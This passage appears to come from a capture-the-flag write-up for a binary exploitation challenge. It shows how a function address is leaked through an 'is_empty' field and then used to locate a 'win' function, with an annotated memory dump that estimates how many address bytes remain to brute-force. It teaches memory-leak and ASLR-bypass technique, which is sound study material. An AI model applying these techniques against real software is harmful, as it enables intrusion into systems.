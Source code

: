 Let's just leak something like `print_u64_hex`, then we can find the win function by offsetting it.

We can leak some things:
![Alt text](imgs/leak_some_things.png)

```
is_empty:嘑                                  <- Unicode Character “嘑” (U+5611)
i:0 item:9c61d36ad306782b
1. print elements
2. create new random element
3. reset and reseed
4. remove item
5. write items to file
7. exit
> # is_empty_adr: 0x5611bafe6b5c
# 0x5611bafe6b4c   -0010:  0   '\0'
# 0x5611bafe6b4d   -000f:  0   '\0'
# 0x5611bafe6b4e   -000e:  0   '\0'
# 0x5611bafe6b4f   -000d:  0   '\0'
# 0x5611bafe6b50   -000c: 2b   '+'
# 0x5611bafe6b51   -000b: 78   'x'
# 0x5611bafe6b52   -000a:  6   '\u{6}'
# 0x5611bafe6b53   -0009: d3   'Ó'
# 0x5611bafe6b54   -0008: 6a   'j'
# 0x5611bafe6b55   -0007: d3   'Ó'
# 0x5611bafe6b56   -0006: 61   'a'
# 0x5611bafe6b57   -0005: 9c   '\u{9c}'
# 0x5611bafe6b58   -0004: b0   '°'       <- constant
# 0x5611bafe6b59   -0003: 4f   'O'       <- 'f' is constant  (16 posibilities)
# 0x5611bafe6b5a   -0002: 9b   '\u{9b}'  <- unknown          (256 pos.)
# 0x5611bafe6b5b   -0001: b9   '¹'       <- unknown          (256 pos.)         total 256 * 256 * 16 = 1 million posibillities
# 0x5611bafe6b5c    0000: 11   '\u{11}'  <- leaked through is_empty
# 0x5611bafe6b5d    0001: 56   'V'       <- leaked through is_empty
# 0x5611bafe6b5e    0002:  0   '\0'
# 0x5611bafe6b5f    0003:  0   '\0'
```
